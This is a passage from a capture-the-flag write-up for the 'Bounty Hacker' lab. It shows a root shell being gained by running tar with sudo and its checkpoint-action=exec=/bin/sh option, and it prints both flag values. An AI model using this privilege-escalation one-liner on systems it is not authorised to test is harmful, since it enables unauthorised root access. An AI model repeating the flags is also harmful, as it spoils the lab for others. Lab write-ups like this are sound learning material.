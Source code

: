 We're in!

We can now grab the first flag on the machine:

```
lin@bountyhacker:~/Desktop$ ls
user.txt
lin@bountyhacker:~/Desktop$ cat user.txt 
THM{CR1M3_SyNd1C4T3}
lin@bountyhacker:~/Desktop$ 
```

## Priv Esc

Now that have a normal user account, let's try to escalate our privs and get root. Let's see what commands we can run as root:

```
lin@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

Looks like we can run ``/bin/tar`` as root. 

A quick google search yeilds this link: https://gtfobins.github.io/gtfobins/tar/

Let's run the first command from the site: ``tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh`` with sudo.

```
lin@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# whoami
root
# 
```

We have root! We can now get the second flag and finish the box.

```
# cat /root/root.txt
THM{80UN7Y_h4cK3r}
# 
```

## Conclusion

Tools Used: ``nmap``, ``filezilla``,  ``metasploit``, 

Overall, this box is beginner-friendly and I would suggest it for someone who is just getting into these kinds of labs. There are well-defined goals that make use of common technologies and tools, thus figuring out what to do isn't difficult at all. 
